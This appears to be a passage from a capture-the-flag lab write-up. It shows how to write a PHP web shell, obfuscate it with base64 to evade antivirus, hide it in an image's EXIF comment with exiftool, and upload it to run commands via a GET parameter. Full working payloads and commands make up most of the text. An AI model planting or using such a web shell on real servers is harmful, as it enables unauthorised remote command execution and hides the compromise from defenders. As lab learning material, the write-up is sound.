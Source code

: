 # PHP Payload Obfuscation

Now to begin with, I want to note that I had some trouble with this part with getting the payload to work. What ended up being the solution was to get a different image from the internet and go through the same process of changing the extension and adding the payload with **exiftool**. With that out of the way, we may begin

To start with we want to create our php payload. As we learned in the last section, doing things different to the standard method is a good way at bypassing AV software. A typically php one-liner that you may use to get RCE may look something like `<?php system($GET_["cmd"]);?>`. This will allow us to run command on the server command line. This is very common and is therefore very easily detected by an AV. We can however modify this one-liner so that it still performs the same task, but is written in a more unique way, a way the AV hasn't seen before (or at least we hope hasn't)

Something like this:
```php
<?php $cmd = $_GET["wreath"]; if(isset($cmd)){ echo "<pre>" . shell_exec($cmd) . "</pre>"; } die(); ?>
```

This does the exact same thing, however, it uses **wreath** as the **GET** parameter and then checks to see if it has been called. If it has, we then execute **shell_exec()** which is wrapped in some HTML tags to give us a clean output

Now that we have our php payload we want to obfuscate it so that it's even harder for the AV to detect it. We could do this manually but there are plenty of tools that will do it for us so we can use one of [them](https://www.gaijin.at/en/tools/php-obfuscator). 

This gives us:
```php
<?php $p0=$_GET[base64_decode('d3JlYXRo')];if(isset($p0)){echo base64_decode('PHByZT4=').shell_exec($p0).base64_decode('PC9wcmU+');}die();?>
```

This is good but as we are using this in a bash command (when we add it to our image), we need to escape the dollar signs, leading our final payload to look like the following:
```php
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```

From here we can add this payload to our image like so: **exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell2-gnome787.jpeg.php**

And now we can upload it to the site and access it in the directory **/resources/uploads**

From here we simply add **?wreath=COMMAND** to starting running commands on the system


